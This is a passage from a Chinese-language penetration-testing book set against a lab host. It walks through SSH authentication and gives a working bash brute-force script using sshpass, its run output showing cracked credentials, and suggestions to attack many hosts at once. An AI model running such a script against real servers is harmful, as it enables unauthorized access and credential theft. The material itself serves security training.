ED25519 key fingerprint is SHA256:c89YzVU+EW/2o+lZm30BgEjutZ0f2t145cSyX2/zwzU.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? **yes**
user@172.16.10.13's password: 
```

尝试通过 SSH 连接到 *p-jumpbox-01* 后，您看到的警告信息表示 SSH 客户端没有将主机的公钥存储在 *known_hosts* 文件中。此文件用于验证您正在连接的主机的真实性，而 *ED25519 密钥指纹* 表示服务器的公钥。通过输入 yes，我们继续进行 SSH 连接，并将主机的公钥存入我们的 *known_hosts* 文件中。

SSH 允许基于密码和基于密钥的认证。在*基于密码的认证*中，用户提供其用户名和密码来验证自己的身份以访问远程服务器。在*基于密钥的认证*（也称为*公钥认证*）中，用户提供一个加密密钥来验证自己的身份。在尝试暴力破解 SSH 服务器之前，验证服务器是否接受基于密码的认证非常重要。

要测试服务器是否允许基于密码的认证，只需观察在尝试初始连接后服务器的响应。例如，您可以看到我们的初始连接尝试产生了对用户密码的提示。或者，您可以使用 Nmap 位于*/usr/share/nmap/scripts*下的内置 NSE 脚本*ssh-auth-methods.nse*。

如果服务器立即拒绝连接或者提供了一个通用的错误消息而不提示您输入密码，那么可能不允许基于密码的认证或者这不是服务器的主要认证方法。

练习 11：对 SSH 服务器进行暴力破解

在这个练习中，您将使用 bash 对运行在*p-jumpbox-01*（172.16.10.13）服务器上的 SSH 服务进行基于字典的暴力破解攻击。您的脚本应该迭代常见用户名和密码的列表，尝试对服务器进行身份验证，并记录任何成功的凭据。

在编写 SSH 暴力破解脚本之前，您需要两样东西。首先，您必须识别单个目标用户名或生成一个用户名列表进行迭代。在侦察期间没有识别到任何用户名，因此尝试使用常见的 Linux 用户名列表，如*root*、*guest*、*backup*、*ubuntu*和*centos*。当然，这只是猜测这些用户是否存在于目标服务器上。

其次，您需要一个潜在密码列表。Kali 包含了一个在*/usr/share/wordlist*目录中的出色密码列表，但我们建议使用书籍 GitHub 仓库中的*common-credentials/passwords.txt*密码文件。

有了您的用户名和密码列表，您可以编写一些 bash 脚本来测试*p-jumpbox-01*服务器认证的强度。第 7-5 节提供了一个示例。

ssh-bruteforce.sh

```
#!/bin/bash

# Define the target SSH server and port.
TARGET="172.16.10.13"
PORT="22"

# Define the username and password lists.
❶ USERNAMES=("root" "guest" "backup" "ubuntu" "centos")
❷ PASSWORD_FILE="passwords.txt"

echo "Starting SSH credential testing..."

# Loop through each combination of usernames and passwords.
❸ for user in "${USERNAMES[@]}"; do
❹ while IFS= read -r pass; do
    echo "Testing credentials: ${user} / ${pass}"

    # Check the exit code to determine if the login was successful.
    if sshpass -p "${pass}" ssh -o "StrictHostKeyChecking=no" \
             ❺ -p "${PORT}" "${user}@${TARGET}" exit >/dev/null 2>&1; then
    ❻ echo "Successful login with credentials:"
      echo "Host: ${TARGET}"
      echo "Username: ${user}"
      echo "Password: ${pass}"

 # Perform additional actions here using the credentials
      exit 0
    fi
  done < "${PASSWORD_FILE}"
done
echo "No valid credentials found." 
```

第 7-5 节：SSH 暴力破解

这个 SSH 暴力破解 bash 脚本的开始与我们的其他脚本非常相似：首先定义目标 IP 地址和端口。接下来，我们指定一组用户名 ❶ 和一个包含我们将使用的密码的文件 ❷。在 ❸ 处，我们迭代每个用户名，并使用 sshpass 注入密码 ❺，我们逐行读取 ❹。我们打印任何成功的输出 ❻。

> 注意

*为了让下面的脚本工作，我们需要安装 sshpass，这是一个特殊的实用工具，允许在脚本中管理 SSH 连接。请使用以下命令安装 sshpass：*

```
$ **sudo apt install sshpass -y**
```

下载并运行脚本以查看输出：

```
$ **./ssh-bruteforce.sh**
Starting SSH credential testing...
Testing credentials: root / 123456
Testing credentials: root / 123456789
Testing credentials: root / qwerty
Testing credentials: root / password
Testing credentials: root / backup
Testing credentials: root / pass123
Testing credentials: guest / 123456
Testing credentials: guest / 123456789
Testing credentials: guest / qwerty
Testing credentials: guest / password
Testing credentials: guest / backup
Testing credentials: guest / pass123
Testing credentials: backup / 123456
Testing credentials: backup / 123456789
Testing credentials: backup / qwerty
Testing credentials: backup / password
Testing credentials: backup / backup
Successful login with credentials:
Host: 172.16.10.13
Username: backup
Password: backup 
```

我们已经发现用户名*backup*在*p-jumpbox-01*服务器上使用了一个弱密码（同样是*backup*）。你可以通过以下命令验证这些凭据是否有效，并登录到*p-jumpbox-01*服务器：

```
$ **ssh backup@172.16.10.13**
```

当系统提示输入凭据时，使用密码*backup*，你应该能获得访问权限。

为了进一步扩展这个脚本，尝试以下修改：

+   通过使用字典来攻击多个主机并行处理，使暴力破解过程更加高效，这样你就不再局限于一次只针对一个 IP 地址。

+   向脚本中添加一个通知组件，这样一旦主机被攻陷，你就能通过你喜欢的消息媒体收到通知。

## 概要

在本章中，你学习了如何在目标机器上创建反向 shell，并探索了增强远程 shell 接口互动性和持久性的策略，为未来的攻击奠定基础。你还学习了如何在攻击机器和被攻陷的机器之间传输文件。接着，你使用 bash 执行了 SSH 暴力破解攻击。

既然你已经攻陷了三台机器，我们强烈建议你开始在被攻陷的主机上游走，为下一章的内容做准备。
